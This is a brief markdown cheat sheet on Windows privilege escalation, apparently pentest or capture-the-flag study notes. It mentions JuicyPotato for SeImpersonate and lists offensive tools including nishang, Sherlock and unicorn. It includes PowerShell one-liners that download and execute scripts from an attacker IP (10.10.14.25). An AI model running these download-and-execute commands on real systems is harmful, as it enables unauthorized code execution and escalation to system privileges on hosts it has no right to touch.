 # privesc

If there is SeImpersonate privilege here you can run the JuicyPotato exploit to get a system shell, and there might be some privileges that you can use if its an AD environment

```text
whoami /priv
```

Once you get a shell on the box, you can run Sherlock to check if you have any vulnerable exploits

```text
iex(new-object net.webclient).downloadstring('http://10.10.14.25/esc.ps1')

# sometimes when powershell doesn't load properly, its worth to try this way
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.25/Sherlock.ps1') | PowerShell -Noprofile -
```

if you're on meterpreter, run the exploit suggester with both x86 meterpreter and x64 meterpreter.

```text
# collection of payloads and powershell scripts
https://github.com/samratashok/nishang

# local windows exploit suggester that you can run in you linux machine
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
# to run powershell script on the shell windows machine for exploits
https://github.com/rasta-mouse/Sherlock

# this can be used to get a meterpreter shell once you've got a normal shell
https://github.com/trustedsec/unicorn
```



